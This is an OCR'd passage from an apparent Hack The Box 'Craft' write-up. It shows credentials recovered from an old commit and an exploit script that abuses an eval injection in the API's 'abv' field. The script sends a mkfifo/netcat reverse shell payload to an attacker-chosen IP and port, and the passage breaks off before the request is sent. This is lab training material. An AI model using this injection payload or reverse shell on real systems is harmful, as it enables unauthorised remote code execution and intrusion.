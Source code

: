     # create a sample brew with real ABV... should succeed.
    print("Create real ABV brew")
    brew_dict = {}
    brew_dict['abv'] = '0.15'
    brew_dict['name'] = 'bullshit'
    brew_dict['brewer'] = 'bullshit'
    brew_dict['style'] = 'bullshit'

    json_data = json.dumps(brew_dict)
    response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
    print(response.text)

Looking at older commits of the same file I found it had creds and has been deleted in newer one.

    dinesh:4aUh0A8PbVJxgd

I logged in to Gogs with those creds as Dinesh but there was nothing new to what is already been public.

# Exploitation

---

So, Right now I will exploit that **python code injection** vulnerability to get a reverse shell.

## Shell in a Docker

---

So, I'll use **test.py** and edit it a little bit.

    #!/usr/bin/env python3
    import requests
    import json
    import sys

    if (len(sys.argv) < 2):
        print(f"Usage: {sys.argv[0]} IP PORT")
        sys.exit()

    ip = sys.argv[1]
    port = sys.argv[2]

    response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
    json_response = json.loads(response.text)
    token =  json_response['token']

    headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }
    # The payload i am sending to Eval is just executing a reverse shell inside os.system
    payload = f'__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip} {port} >/tmp/f")'
    brew_dict = {}
    brew_dict['abv'] = payload
    brew_dict['name'] = 'bullshit'
    brew_dict['brewer'] = 'bullshit'
    brew_dict['style'] = 'bullshit'
